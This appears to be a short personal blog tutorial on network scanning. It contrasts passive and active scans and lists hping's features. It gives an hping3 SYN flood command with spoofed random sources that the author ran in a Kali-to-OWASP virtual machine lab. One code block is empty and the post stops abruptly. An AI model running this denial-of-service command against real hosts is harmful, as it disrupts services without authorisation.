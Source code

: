 ```yaml
---
date: "2019-01-13"
title: "Network Scan"
category: "Hacking"
---
```

In general, there are two types of network scan.
1. Passive Scan (Whireshark, ARP Tables)
2. Active Scan (Hping, NMAP, Scapy...etc)

The difference between two is <b>passive</b> scan will not be recognized by targets. On the other hand, <b>active scan</b> will leave traces and requires more preparations before scanning the target system.
<br/>
<br/>
Today, we are going to cover some userfule <b>active</b> scan tools.


###Hping
List of features, including
+ TCP/IP packet analyzer
+ Support TCP, UDP, ICMP
+ Firewall testing
+ Port scanning
+ Remote OS fingerprinting
+ DoS attacks

####Basic Scan
```bash
`

```

####DoS Example
```bash

--flood: sent packets as fast as possible. Don't show replies.
--rand-dest: random destionation address mode. see the man.
-V -- Verbose
-c --count: packet count
-d --data: data size
-S --syn: set SYN flag
-w --win: winsize (default 64)
-p --destport [+][+]<port> destination port(default 0) ctrl+z inc/dec
-s --baseport: base source port (default random)

hping3 -V -c 1000000 -d 120 -S -w 64 -p 445 -s 445 --flood --rand-source TARGET_ADDRESS
```

To test this case, I used Kali (attacker) and OWASP (victim) on VM virtual box.
![alt text](https://storage.googleapis.com/warrenlee/myBlog/network%20scan/DoS.png)

From Wireshark, we can see packets 



###NMAP
